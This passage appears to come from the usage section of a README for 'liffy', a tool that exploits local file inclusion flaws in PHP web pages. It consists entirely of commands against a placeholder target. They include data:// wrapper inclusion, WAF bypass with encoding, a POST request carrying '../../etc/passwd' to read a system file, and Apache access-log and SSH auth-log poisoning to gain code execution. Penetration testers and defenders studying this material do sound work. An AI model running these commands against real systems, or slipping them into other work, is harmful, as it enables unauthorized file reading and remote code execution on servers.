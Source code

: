 #### Test with data:// wrapper

```bash
python3 liffy.py "http://example.com/page.php?file=" -d
```

#### Test with multiple techniques

```bash
python3 liffy.py "http://example.com/page.php?file=" -d -i -e -f
```

#### Detection mode only

```bash
python3 liffy.py "http://example.com/page.php?file=" --detection -d -i -e
```

### Advanced Usage

#### WAF bypass with encoding

```bash
python3 liffy.py "http://example.com/page.php?file=" -d --waf-bypass --encoding
```

#### Multi-threaded with rate limiting

```bash
python3 liffy.py "http://example.com/page.php?file=" -d -t 10 --config
```

#### POST request with custom headers

```bash
python3 liffy.py "http://example.com/upload.php" -d --method POST \
  --post-data "action=read&file=../../etc/passwd" \
  --headers "User-Agent:Mozilla/5.0,X-Forwarded-For:192.168.1.1"
```

### Log Poisoning

#### Apache access log poisoning

```bash
python3 liffy.py "http://example.com/page.php?file=" -a
```

#### SSH auth log poisoning

```bash
python3 liffy.py "http://example.com/page.php?file=" --ssh
```

#### Custom log location

```bash
python3 liffy.py "http://example.com/page.php?file=" -a -l "/var/log/apache2/access.log"
```
